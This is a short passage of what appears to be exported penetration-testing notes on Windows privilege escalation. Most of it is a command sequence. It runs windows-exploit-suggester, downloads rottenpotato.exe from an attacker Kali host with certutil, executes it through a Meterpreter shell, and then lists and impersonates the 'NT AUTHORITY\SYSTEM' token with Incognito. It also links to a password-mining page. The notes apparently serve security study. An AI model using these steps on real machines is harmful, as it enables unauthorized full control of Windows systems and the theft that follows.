         `impersonate_token "NT AUTHORITY\SYSTEM”`
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2036.png)
        
        **Manual**
        
        `./windows-exploit-suggester.py --database <Database>.xlsx --systeminfo <Systeminfo>.txt`
        
        `certutil -urlcache -f http://<KALI-VM-IP>/rottenpotato.exe rottenpotato.exe`
        
        `load incognito`
        
        `shell`
        
        `.\rottenpotato.exe`
        
        `list_tokens -u`
        
        `impersonate_token "NT AUTHORITY\SYSTEM”`
        

# Passwords Mining

[Windows Password Mining](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Windows%20Password%20Mining%20e0240b3dbc734da9bf341cbf28c9c87b.md)